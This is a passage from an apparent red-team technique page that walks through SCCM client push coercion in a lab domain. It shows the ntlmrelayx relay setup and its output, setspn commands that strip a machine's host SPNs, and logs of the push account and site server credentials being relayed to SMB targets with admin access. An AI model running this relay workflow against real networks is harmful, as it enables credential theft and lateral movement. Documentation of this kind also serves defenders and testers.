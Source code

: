     ```
    # python3 examples/ntlmrelayx.py -tf ~/no_signing -smb2support -socks
    Impacket v0.12.0.dev1+20240320.191945.7e25245e - Copyright 2023 Fortra

    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client SMB loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Running in relay mode to hosts in targetfile
    [*] SOCKS proxy started. Listening on 127.0.0.1:1080
    [*] SMB Socks Plugin loaded..
    [*] IMAPS Socks Plugin loaded..
    [*] MSSQL Socks Plugin loaded..
    [*] HTTP Socks Plugin loaded..
    [*] HTTPS Socks Plugin loaded..
    [*] IMAP Socks Plugin loaded..
    [*] SMTP Socks Plugin loaded..
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
    * Debug mode: off
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    Type help for list of commands
    ```
3. Join a windows machine to the domain by doing the following:
   - Navigate to Control Panel then "System and Security"
   - Select "See the name of this computer"
   - Select "Rename this PC (Advanced)
   - Click "Change" to rename this computer or change its domain or Workgroup
   - change the domain of your Windows PC to your target domain and change the computer name to what you desire.
   - Enter credentials when prompted and restart when prompted.
4. After restarting, the computer, sign in with the user you joined the computer to the domain with and use setspn.exe to remove the host SPN's for the machine account
   ```
   setspn -D host/malboro marlboro
   setspn -D host/marlboro.sevenkingdoms.local marlboro
   ```
5. After a few minutes (in a default configuration an "delta discovery" takes place every 5 minutes. shortly after authentication attempts should happen.), ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [*] Authenticating against smb://10.2.10.113 as SEVENKINGDOMS/SCCM_PUSH SUCCEEDED
    [*] SOCKS: Adding SEVENKINGDOMS/SCCM_PUSH@10.2.10.113(445) to active SOCKS connection Enjoy 
    [*] Authenticating against smb://10.2.10.15 as SEVENKINGDOMS/SCCM01$ SUCCEED
    [*] SOCKS: Adding SEVENKINGDOMS/SCCM01$@10.2.10.15(445) to active SOCKS connection. Enjoy
    socks
    Protocol  Target       Username                 AdminStatus  Port
    --------  -----------  -----------------------  -----------  ----
    SMB       10.2.10.15   SEVENKINGDOMS/SCCM_PUSH  FALSE        445
    SMB       10.2.10.15   SEVENKINGDOMS/SCCM01$    FALSE        445
    SMB       10.2.10.22   SEVENKINGDOMS/SCCM_PUSH  TRUE         445